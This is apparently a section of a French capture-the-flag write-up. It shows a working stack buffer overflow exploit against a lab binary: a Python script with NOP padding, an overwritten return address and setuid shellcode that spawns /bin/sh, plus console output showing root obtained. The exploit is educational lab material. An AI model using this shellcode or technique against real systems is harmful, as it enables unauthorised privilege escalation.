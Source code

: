 ### SSH (zaz)

Toujours grace a un buffer overflow, il possible egalement de passer un shellcode, qui
sera execute au lancement du programme.

```python
#!/usr/bin/env python

from __future__ import print_function
import struct

# fill the buffer
pad = b"\x90" * 140

# overflow to change the eip pointer to be somewhere in the buffer's address
eip = struct.pack("I", 0xbffff6c0 + 200)

# fill the buffer with nop to be sure
nop = b"\x90" * 1000

# setuid, setgid, reopens stdin, and run /bin/sh
shellcode = b"\x83\xc4\x18\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

to_print = pad + eip + nop + shellcode

print(to_print, end = '')
```

Une fois connecte en ssh a l'user `zaz`:

```console
$ ./exploit_me $(python shellcode.py)
# id
uid=0(root) gid=0(root) groups=0(root),1005(zaz)
```

